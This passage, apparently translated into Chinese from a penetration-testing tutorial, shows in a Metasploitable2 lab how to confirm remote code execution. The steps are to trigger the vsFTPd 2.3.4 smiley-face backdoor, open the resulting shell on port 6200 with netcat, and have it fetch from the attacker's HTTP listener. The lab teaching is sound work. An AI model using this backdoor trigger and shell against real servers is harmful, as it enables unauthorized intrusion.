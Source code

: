 这个Python脚本使用套接字库来生成一个Web服务器，该服务器监听所有本地接口的TCP 8000 端口。 接收到来自客户端的连接时，脚本将返回客户端的IP地址和发送的请求。 为了使用此脚本验证漏洞，我们需要执行代码，使远程系统与托管的Web服务进行交互。 但在这之前，我们需要使用以下命令启动我们的脚本：

```
root@KaliLinux:~# ./httprecv.py 
Awaiting connection... 
```

接下来，我们需要利用导致远程代码执行的漏洞。 通过检查Metasploitable2盒子内的Nessus扫描结果，我们可以看到运行的FTP服务有一个后门，可以通过提供带有笑脸的用户名来触发。 没有开玩笑......这实际上包含在 FTP 生产服务中。 为了尝试利用它，我们将首先使用适当的用户名连接到服务，如下所示：

```
root@KaliLinux:~# ftp 172.16.36.135 21 
Connected to 172.16.36.135. 
220 (vsFTPd 2.3.4) 
Name (172.16.36.135:root): Hutch:) 
331 Please specify the password. 
Password: 
^C 
421 Service not available, remote server has closed connection 
```

尝试连接到包含笑脸的用户名后，后门应该在远程主机的TCP端口6200上打开。我们甚至不需要输入密码。 反之，`Ctrl + C`可用于退出FTP客户端，然后可以使用Netcat连接到打开的后门，如下所示：

```
root@KaliLinux:~# nc 172.16.36.135 6200 
wget http://172.16.36.224:8000 
--04:18:18--  http://172.16.36.224:8000/
           => `index.html' 
Connecting to 172.16.36.224:8000... connected. 
HTTP request sent, awaiting response... No data received. 
Retrying.

--04:18:19--  http://172.16.36.224:8000/  
  (try: 2) => `index.html' 
Connecting to 172.16.36.224:8000... failed: Connection refused. 
^C
```

与开放端口建立TCP连接后，我们可以使用我们的脚本来验证，我们是否可以进行远程代码执行。 为此，我们尝试以 HTTP 检测服务器的 URL 使用`wget`。 尝试执行此代码后，我们可以通过查看脚本输出来验证是否收到了HTTP请求：

```
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* 
Host: 172.16.36.224:8000 
Connection: Keep-Alive
```

### 工作原理

此脚本的原理是识别来自远程主机的连接尝试。 执行代码会导致远程系统连接回我们的监听服务器，我们可以通过利用特定的漏洞来验证远程代码执行是否存在。 在远程服务器未安装`wget`或`curl`的情况下，可能需要采用另一种手段来识别远程代码执行。
